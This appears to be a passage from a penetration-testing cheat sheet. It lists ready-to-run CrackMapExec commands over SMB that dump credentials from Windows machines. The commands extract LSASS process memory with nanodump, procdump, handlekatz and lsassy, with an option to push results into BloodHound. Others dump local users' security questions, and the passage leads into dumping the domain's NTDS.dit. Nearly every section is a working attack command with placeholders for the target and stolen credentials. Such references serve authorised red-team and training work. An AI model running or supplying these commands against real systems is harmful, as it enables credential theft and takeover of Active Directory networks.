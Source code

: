 ```bash
cme smb <ip> -u <user> -p <password> -M nanodump
```

## Dump LSASS (Procdump)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump secrets from the LSASS process memory using methods from Procdump.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M procdump
```

## Dump LSASS (Handlekatz)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump secrets from the LSASS process memory using methods from Handlekatz64 and pypykatz.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M handlekatz
```

## Dump LSASS - with bloodhound update
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -H <hash> --local-auth -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## Dump Security questions
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump local users security questions.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M security-questions
```

## Dump NTDS
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Domain_Admin

Dump the NTDS.dit using methods from secretsdump.py.
